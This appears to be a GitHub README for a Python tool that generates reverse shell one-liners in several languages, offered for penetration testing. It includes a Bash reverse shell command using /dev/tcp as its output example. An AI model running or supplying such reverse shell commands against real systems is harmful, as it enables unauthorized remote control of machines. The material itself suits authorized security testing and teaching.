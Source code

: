 # Reverse Shell One-Liner Generator

A Python script to generate reverse shell commands for various programming languages. Useful for ethical penetration testing and demonstration purposes.

## Features
- Generate reverse shell commands for Bash, Python, PHP, PowerShell, and more.
- Customizable IP address and port.
- Option to save commands to a file.

## Usage
1. Clone the repository:
git clone https://github.com/yourusername/reverse-shell-generator.git

2. Run the script:
python ReverseShellGenerator.py

## Output Example
Bash: bash -i >& /dev/tcp/127.0.0.1/4444 0>&1

## Screenshot
![image](https://github.com/user-attachments/assets/357791bc-2578-4592-a50a-50b7ea916942)


## Disclaimer
**For educational and authorized use only. Misuse of this tool may result in legal consequences.**
